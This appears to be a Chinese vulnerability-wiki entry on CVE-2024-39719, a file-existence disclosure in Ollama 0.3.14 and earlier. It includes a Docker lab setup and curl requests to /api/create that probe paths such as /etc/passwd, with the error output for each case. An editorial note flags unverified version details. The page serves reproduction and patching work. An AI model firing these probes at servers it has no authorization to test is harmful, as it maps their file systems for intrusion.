




# Ollama 文件存在性泄露漏洞 CVE-2024-39719

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 把创建模型API请求描述为创建文件file-leak-existence不准确，该name为模型名
- 参考0.1.47 release与声称<=0.3.14并存，需核对公告后明确最低修复版本
- 仅可推测存在性，不等于读取文件内容
- 输出混入% e和%终端杂字符；代码块无语言
- 鉴权/端口可达前提应结构化

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

 Ollama 0.3.14 及之前的版本中，攻击者可以通过 `api/create` 端点触发文件存在性泄露（File Existence Disclosure）漏洞。当调用 `CreateModel` 并传递一个不存在的路径参数时，服务器会直接返回 `"File does not exist"`（文件不存在）的错误消息。该漏洞允许攻击者探测服务器上特定文件是否存在，进而造成信息泄露。

参考链接：

- https://github.com/advisories/GHSA-cpxh-jwhh-m496
- https://oligosecurity.webflow.io/blog/more-models-more-probllms
- https://github.com/ollama/ollama/releases/tag/v0.1.47
- https://github.com/ollama/ollama/blob/cb42e607c5cf4d439ad4d5a93ed13c7d6a09fc34/server/images.go#L349

## 漏洞影响

```
Ollama ≤ 0.3.14
```

## 环境搭建

docker-compose.yml

```
services:
  ollama:
    image: ollama/ollama:0.3.14
    container_name: ollama
    volumes:
      - ollama:/root/.ollama
    ports:
      - "11434:11434"

volumes:
  ollama:
```

执行如下命令启动 Ollama 0.3.14 服务:

```shell
docker compose up -d
```

环境启动后，访问 `http://your-ip:11434/`，此时 Ollama 0.3.14 已经成功运行。




## 漏洞复现

使用 `curl` 命令向本地服务器发送请求，创建一个名为 `file-leak-existence` 的文件。

文件不存在时，将报错 `no such file or directory`：

```shell
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/tmp/non-existing"}'
-----
{"error":"error reading modelfile: open /tmp/non-existing: no such file or directory"}
```




文件存在时，将报错 `command must be one of "from", "license", "template", "system", "adapter", "parameter", or "message"`：

```shell
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/etc/passwd"}'
-----
{"error":"command must be one of \"from\", \"license\", \"template\", \"system\", \"adapter\", \"parameter\", or \"message\""}% e
```




传入目录而非文件路径时候，将报错 `{"error":"read /xxx: is a directory"}`：

```shell
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/etc"}'
-----
{"error":"read /etc: is a directory"}%  
```




## 漏洞修复

- 升级至最新版本 https://github.com/ollama/ollama


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
